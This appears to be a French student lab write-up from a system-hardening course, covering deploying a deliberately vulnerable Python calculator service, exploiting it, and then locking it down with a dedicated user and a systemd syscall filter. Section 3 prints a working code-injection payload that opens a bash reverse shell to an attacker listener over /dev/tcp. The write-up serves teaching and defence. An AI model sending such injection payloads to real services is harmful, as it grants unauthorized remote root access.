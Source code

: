 # Part IV : My shitty app

## 1. Test

🌞 **Téléchargez l'app Python dans votre VM**

```bash
sudo curl -sSL -o /opt/calc.py https://gitlab.com/it4lik/m1-hardening-2024/-/raw/main/tp/2/calc.py
```

🌞 **Lancer l'application dans votre VM**

```bash
python3 /opt/calc.py
```

- Ouvrir le port du firewall :

```bash
sudo firewall-cmd --add-port=13337/tcp --permanent
sudo firewall-cmd --reload
```

- Tester depuis une autre machine avec `nc` :

```bash
nc 192.168.1.195 13337

Hello3+3
6
```

## 2. Création de service

🌞 **Créer un service `calculatrice.service`**

```bash
sudo vim /etc/systemd/system/calculatrice.service
```

Contenu du service :

```ini
[Unit]
Description=Super calculatrice :D

[Service]
ExecStartPre=/usr/bin/firewall-cmd --add-port=13337/tcp
ExecStartPre=/usr/bin/firewall-cmd --add-port=13337/tcp --permanent
ExecStart=/usr/bin/python3 /opt/calc.py
ExecStopPost=/usr/bin/firewall-cmd --remove-port=13337/tcp
ExecStopPost=/usr/bin/firewall-cmd --remove-port=13337/tcp --permanent
Restart=always

[Install]
WantedBy=multi-user.target
```

🌞 **Démarrer et vérifier le service :**

```bash
sudo systemctl daemon-reload
sudo systemctl start calculatrice
sudo systemctl status calculatrice
```

Tester de nouveau avec `nc` :

```bash
nc 192.168.1.195 13337

Hello4+4
8
```

## 3. Hack

🌞 **Injection de commande :**

```bash
nc 192.168.1.195 13337

Hello__import__("os").system("bash -i >& /dev/tcp/192.168.1.150/9999 0>&1")
```

- Listener sur la machine attaquante (`192.168.1.150`) :

```bash
nc -lvp 9999
```

Un reverse shell en root est obtenu.

## 4. Harden

### A. Utilisateurs

🌞 **Créer un utilisateur dédié :**

```bash
sudo useradd calculatrice --shell /usr/sbin/nologin --no-create-home
sudo chown calculatrice:calculatrice /opt/calc.py
sudo chmod 500 /opt/calc.py
sudo chattr +i /opt/calc.py
```

🌞 **Modifier le service pour l'exécuter sous cet utilisateur :**

Modifier `/etc/systemd/system/calculatrice.service` :

```ini
[Service]
...
User=calculatrice
PermissionsStartOnly=true
...
```

Redémarrer le service :

```bash
sudo systemctl daemon-reload
sudo systemctl restart calculatrice
```

### B. Syscalls

🌞 **Tracer l'application en usage normal et en exploitation :**

- Usage normal : `calc_legit.scap`
- Exploitation : `calc_hacked.scap`

Comparer les syscalls pour identifier ceux nécessaires :

```bash
sudo sysdig -r calc_legit.scap | cut -d' ' -f7 | sort | uniq > legit_syscalls
sudo sysdig -r calc_hacked.scap | cut -d' ' -f7 | sort | uniq > hacked_syscalls
comm -13 legit_syscalls hacked_syscalls
```

🌞 **Limiter les syscalls autorisés :**

Modifier le service pour ajouter `SystemCallFilter=` :

```ini
[Service]
...
SystemCallFilter=accept4 access arch_prctl bind brk capget chdir close connect dup epoll_create1 execve exit_group fcntl fstat futex getdents64 getegid geteuid getgid getpeername getrandom getsockname getuid ioctl keyctl listen lseek mmap mprotect munmap newfstatat openat prctl pread prlimit procexit read readlink recvfrom rseq rt_sigaction sendto setresuid setreuid set_robust_list setsockopt set_tid_address signaldeliver socket switch sysinfo write pread64
...
```

🌞 **Vérification finale :**

Tester à nouveau l'injection ; le reverse shell échoue désormais grâce aux restrictions mises en place.
